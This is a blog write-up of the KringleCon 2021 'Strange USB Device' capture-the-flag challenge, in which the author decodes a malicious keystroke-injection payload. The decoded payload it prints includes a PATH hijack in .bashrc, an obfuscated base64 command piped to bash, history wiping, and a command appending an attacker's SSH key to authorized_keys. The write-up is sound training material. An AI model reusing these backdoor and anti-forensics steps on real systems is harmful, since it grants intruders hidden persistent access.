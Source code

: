 ```yaml
---
tags:
  - post
  - kringlecon2021Post
title: Strange USB Device
layout: post.njk
description: >
  A short description of the article
eleventyNavigation:
  key: Post
  title: Strange USB Device
  parent: KringleCon2021Posts
---
```

# Introduction
This is a challenge with potential to learn alot, or just cruise through for potential CTF points. The description of the challenge is as follows:
Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.
The flag we are looking for is the trolls username.

# Tools
We are handed a script called mallard.py and a USB device at /mnt/USBDEVICE/. First off, the mallard script. The help page shows the following:
```
elf@cb3fea375384:~$ python mallard.py -h                
usage: mallard.py [-h] [--file FILE] [--no_analyze] [--output_file OUTPUT_FILE]
                  [--analysis_file ANALYSIS_FILE] [--debug]

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  The file to decode, default: inject.bin
```
And the contents of /mnt/USBDEVICE/ is a file called inject.bin.

Well, it seems straight forward. We have a script that takes files (default inject.bin), and a file called inject.bin.
First lets copy the file so we have a backup incase something wrong happens.

# Enumeration
```
elf@cb3fea375384:~$ cp /mnt/USBDEVICE/inject.bin /home/elf/
elf@cb3fea375384:~$ python mallard.py --file inject.bin 
...

STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```
It seems like one of the last things the troll tried to do was so bad he wanted to hide it. He used bash to base64 decrypt a string and run the commands in that string. Lets see what it does. All we need to do is to copy the command and remove bash at the end.
```
echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d

echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```
Aha! ickymcgoop wanted to be authurized to ssh himself into the device. Well, that was that.
